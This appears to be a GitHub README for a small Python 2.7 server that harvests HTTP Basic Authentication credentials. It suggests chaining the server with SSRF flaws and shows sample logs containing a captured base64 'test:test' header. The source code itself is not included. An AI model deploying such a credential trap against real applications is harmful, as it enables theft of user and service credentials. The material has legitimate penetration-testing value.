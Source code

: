 # basic-capture
Simple server written in python 2.7 to capture credentials via HTTP Basic Authentication.

Inspirated taken from smb-capture module in Metasploit. 
Receommended to chain up with SSRF vulnerability to check if application will pass crendentials via HTTP Basic Auth.

#Usage 

root@trustmeimprinter:~# python basic-capture.py 
Serving HTTP on 0.0.0.0 port 8000 ...
send header
127.0.0.1 - - [21/May/2019 03:39:19] "GET / HTTP/1.1" 401 -
None
send header
127.0.0.1 - - [21/May/2019 03:39:24] "GET / HTTP/1.1" 401 -
Basic dGVzdDp0ZXN0

